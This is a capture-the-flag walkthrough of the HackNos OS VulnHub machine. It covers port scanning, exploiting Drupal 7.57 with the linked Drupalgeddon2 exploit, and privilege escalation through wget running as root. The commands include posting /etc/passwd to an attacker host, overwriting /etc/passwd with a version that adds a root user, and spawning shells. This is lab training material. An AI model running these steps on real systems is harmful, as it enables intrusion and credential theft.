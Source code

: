 Here is the professional documentation with the screenshots included:

---

## HackNos OS VulnHub Walkthrough

**VulnHub Link:** [HackNos OS](https://www.vulnhub.com/entry/hacknos-os-hacknos,401/)

---

### Step 1: Initial Nmap Scan

We began with a full Nmap scan to identify open ports and services on the target machine:

```bash
nmap -T4 -p- -A 192.168.1.26
```

After identifying key services, we narrowed the scan:

```bash
nmap -T4 -p 80,22 -A 192.168.1.26
```

**Nmap Results:**

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-21 22:27 EDT
Nmap scan report for 192.168.1.26
Host is up (0.00041s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We discovered:
- **SSH** running on port 22
- **Apache** on port 80

---

### Step 2: Identifying Drupal Vulnerability

We browsed the web server and discovered it was running **Drupal 7.57**, a version known to be vulnerable. We confirmed the version by visiting:

```
http://192.168.1.26/drupal/profiles/testing/testing.info
```

![Drupal Version](./Image/1.png)

---

### Step 3: Exploiting with Drupalgeddon2

Using the **Drupalgeddon2** exploit available on GitHub, we managed to exploit the vulnerability:

**GitHub Exploit:** [Drupalgeddon2](https://github.com/dreadlocked/Drupalgeddon2)

![Exploitation with Drupalgeddon2](./Image/2.png)

---

### Step 4: Gaining Access to `user.txt`

After successfully exploiting the system, we navigated to the `james` folder and found a `user.txt` file containing an MD5 hash. This file could be cracked using **Hashcat**:

![user.txt Found](./Image/3.png)

---

### Step 5: Running linpeas.sh for Privilege Escalation

Before proceeding, I executed `linpeas.sh` to identify privilege escalation vectors. The script revealed that **wget** can be run as root, which gave us a clear path for exploitation:

![Running linpeas.sh](./Image/4.png)

---

### Step 6: Exploiting `/etc/passwd`

To escalate privileges, I first exported the `/etc/passwd` file to my local attacker machine:

```bash
/usr/bin/wget --post-file=/etc/passwd 192.168.1.30
```

![Exporting /etc/passwd](./Image/5.png)

---

### Step 7: Editing `/etc/passwd`

On my local machine, I added a new user with root privileges. I generated the password hash using the following command:

```bash
openssl passwd -1 -salt 123 pass123
$1$123$hbJRtWw9J.EKnGFIfx2OQ1
```

![Editing passwd](./Image/6.png)

---

### Step 8: Hosting the Modified `passwd` File

I then hosted the modified `passwd` file on my local machine and hosted the file to export back to the vitcim machine using Python's HTTP server:

```bash
python3 -m http.server 80
```

![Hosting Modified passwd File](./Image/7.png)

---

### Step 9: Downloading and Replacing `/etc/passwd` on the Target

On the victim machine, I replaced the original `passwd` file with the modified one by using **wget**:

```bash
wget http://192.168.1.30/passwd -O /etc/passwd
```

![Downloading Modified passwd File](./Image/8.png)

---

### Step 10: Spawning a Shell and Getting Root Access

Before attempting to switch users, I spawned an interactive shell using:

```bash
/usr/bin/script -qc /bin/bash /dev/null
```

or alternatively:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Finally, I switched to the just created user using the `su` command:

```bash
su pwn_root
```

This gave me full root access, and I retrieved the second flag.

![Root Access Obtained](./Image/9.png)

